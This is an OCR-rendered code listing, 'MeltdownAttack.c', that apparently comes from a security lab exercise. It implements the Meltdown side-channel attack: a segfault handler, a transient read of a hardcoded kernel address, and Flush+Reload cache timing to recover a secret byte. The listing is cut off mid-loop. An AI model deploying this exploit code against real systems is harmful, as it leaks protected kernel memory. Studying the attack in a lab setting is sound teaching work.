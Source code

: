 Listing 7:MeltdownAttack.c
static int scores[256];

void reloadSideChannelImproved()
{
int i;
volatile uint8_t *addr;
register uint64_t time1, time2;
int junk = 0;
for (i = 0; i < 256; i++) {
addr = &array[i *4096 + DELTA];
time1 = __rdtscp(&junk);
junk = *addr;
time2 = __rdtscp(&junk) - time1;
if (time2 <= CACHE_HIT_THRESHOLD)
scores[i]++; /*if cache hit, add 1 for this value */
}
}


// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
int i, j, ret = 0;

```
// Register signal handler
signal(SIGSEGV, catch_segv);
```
```
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
perror("open");
return -1;
}
```
```
memset(scores, 0, sizeof(scores));
flushSideChannel();
```
```
// Retry 1000 times on the same address.
for (i = 0; i < 1000; i++) {
ret = pread(fd, NULL, 0, 0);
if (ret < 0) {
perror("pread");
break;
}
```
```
// Flush the probing array
for (j = 0; j < 256; j++)
_mm_clflush(&array[j* 4096 + DELTA]);
```
```
if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }
```
```
reloadSideChannelImproved();
}
```
```
// Find the index with the highest score.
int max = 0;
for (i = 0; i < 256; i++) {
if (scores[max] < scores[i]) max = i;
```